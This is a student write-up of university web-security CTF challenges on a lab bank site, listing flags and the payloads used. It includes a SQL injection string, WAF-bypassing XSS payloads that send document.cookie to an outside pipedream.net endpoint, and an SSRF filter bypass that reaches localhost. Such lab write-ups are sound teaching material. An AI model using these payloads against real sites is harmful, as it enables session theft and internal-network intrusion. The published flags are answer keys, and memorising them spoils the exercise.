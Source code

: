 # Topic 5 Challenges

- [x] ctfproxy2.quoccabank.com (6)

### ctfproxy2.quoccabank.com

- To enable to deploy an api (and subsequently use most of the website functionality), you need to visit `https://ctfproxy2.quoccabank.com/api/ctfproxy2-manager` to be allowed to deploy your own api.

  <img src="images/image-20210806143212042.png" alt="image-20210806143212042" style="zoom: 33%;" />

### ctfproxy2.quoccabank.com/api/payportal-v2

- COMP6443{WAF_IS_EASY_TO_BYPASS}
  - `"or 1=1;`

### ctfproxy2.quoccabank.com/api/science-tomorrow

- Query Flag - COMP6443{XSS_IS_TRIVIAL.ejUzMTI3OTk=.hWfFkm+u0kXdOKLG6H/T6w==}

  - WAF bypass vulnerability

  - Seems like it cant execute JS inside of script tags? e.g.

    ```
    <SCR<SCRIPTIPT%20SRC>document.location = 'https://en45lixradoeo.x.pipedream.net'/*
    ```

    - `/*` is used to comment out after the HTML tag once the XSS payload is injected

  - Note that some keywords such as `fetch` or `alert` are blacklisted by the WAF whilst others such as `SCRIPT` or `IMG` bypass the WAF but stripped out when loaded on the DOM. Final payload using the `onerror` attribute to execute Javascript:

    ```
    <imimgg oneronerrorror="javascript:window.location = `https://en45lixradoeo.x.pipedream.net?q=${document.cookie}`"/>
    ```

- Home Page Flag - COMP6443{WAF_IS_TRIVIAL.ejUzMTI3OTk=.TRGGsfbGI7LS7iYje3G/Zw==}

  - Note: for `onerror`, we are not using `javascript` specifier (i.e. `onerror=javascript:`) since the `script` keyword is blocked by the WAF

    ```
    <IMG SRC=x onerror="window.location = `https://en45lixradoeo.x.pipedream.net?q=${document.cookie}`"/>
    ```

### ctfproxy2.quoccabank.com/api/flagprinter

- COMP6443{I_AM_A_DOC_NOT_A_COP.ejUzMTI3OTk=.pxKRFFaXdaEGLgvmPtxjOA==}
  - We can see that there is an api called `/api/flagprinter` that redirects to `flagprinter.quoccabank.com`. However, `ctfproxy2.quoccabank.com/api/flagprinter` says that the api is blocked by the admin. The text `I love that QuoccaBank lets interns deploy APIs` gives us a hint that we can **deploy** our own api route using `flagprinter.quoccabank.com` as the origin and use the api route we specify instead.

### ctfproxy2.quoccabank.com/api/flagprinter-v2

- COMP6443{HOW_DID_YOU_ENABLE_ME.ejUzMTI3OTk=.aPG94L0WHwxWdxA3k8xYng==}
  - The domain is not visible initially. To find the domain, go to the `/list` route. There is a search bar. When intercepting the POST request, there exist a hidden parameter called `internal` and is set to 0. Set params to `internal=1&name=` to reveal the hidden api.

    ![image-20210806231347493](images/image-20210806231347493.png)

  - When accessing `https://ctfproxy2.quoccabank.com/api/flagprinter-v2`, it seems that we don't have special permissions.
  
  - We could try to do a similar tactic with `flagprinter` where we deploy the api. When deploying an api, messing around the body json returns this error alert
  
    ![image-20210806231652130](images/image-20210806231652130.png)
  
  - There appears to be a `dependsOn` param in the body. Giving an invalid input initially (i.e. a number) returns an alert that it accepts an array of strings
  
    ![image-20210806231823928](images/image-20210806231823928.png)
  
  - Use the payload to enable the `flagprinter-v2` api
  
    ```
    {
        "name": "flag-v2",
        "origin": "flagprinter-v2.quoccabank.com",
        "description": "",
        "dependsOn": [
            "flagprinter-v2"
        ]
    }
    ```
  
  - Enable the api by `https://ctfproxy2.quoccabank.com/enable/test2`
  
  - Visit the original flagprinter-v2 api `https://ctfproxy2.quoccabank.com/api/flagprinter-v2/` to get the flag.

### ctfproxy2.quoccabank.com/flag

- COMP6443{SSRF_IS_FUN_AND_TRIVIAL_NOW_WITH_WAF.ejUzMTI3OTk=./UzzxUkt+rkgHcU38pKFeg==}

  - Visit `/robots.txt`. There exists a `/flag` route

  - Visiting `/flag` gives us an error 418. When checking the comment, we are given this snippet:

    ![image-20210806233614044](images/image-20210806233614044.png)

  - This seems like a possible SSRF vulnerability where we can load the page from the server and somehow send it to the client.

  - Looking at other aspects of the website, seems like we can inject a URL in upload avatar which could possibly run the `/flag` route as the server. Looking at the source code, there exists a WAF that checks if the URL is a `localhost` ip address

    <img src="images/image-20210806233906525.png" alt="image-20210806233906525" style="zoom: 50%;" />

  - Seems like we can bypass the using:

    ```
    http://google.com@gtangelo.com/flag#.png
    ```

    where `gtangelo.com` has an A record pointing to the localhost ip address `127.0.0.1`. The first part of the payload, `http://google.com@` ensures that the WAF stops at the `@` due to the regex. After, it sends a request to the entire url, including `gtangelo.com/flag#.png`. The `@` in the URL redirects from `http://google.com` to `gtangelo.com/flag#.png` when the URL is requested. The `#` in `gtangelo.com/flag#.png` is there to bypass the WAF since the URL must end with `.png`. Also characters after `#` is not registered as a part of the request url. i.e. `/flag?picture=p.png` or `/flag#.png` is interpreted as `/flag`

  - Once the payload is used, the html in `/flag` should be in the avatar.png. Download the image, change it to `avatar.txt` to get the contents which contains the flag.

